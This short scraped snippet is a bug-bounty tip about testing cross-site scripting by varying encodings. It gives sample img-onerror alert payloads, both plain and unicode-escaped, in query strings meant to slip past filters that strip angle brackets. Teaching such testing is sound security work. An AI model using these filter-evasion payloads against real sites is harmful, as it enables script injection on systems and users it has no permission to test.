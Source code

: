 Tip:
Bug Bounty Tip Always check different encodings for your XSS payload. For example: ?q=`<img/src/onerror=alert()>`<img src onerror=alert(1)> ?q=\u003cimg src onerror=alert(1)\u003e There might be a filter that removes <>, but not unicode symbols \u003c \u003e.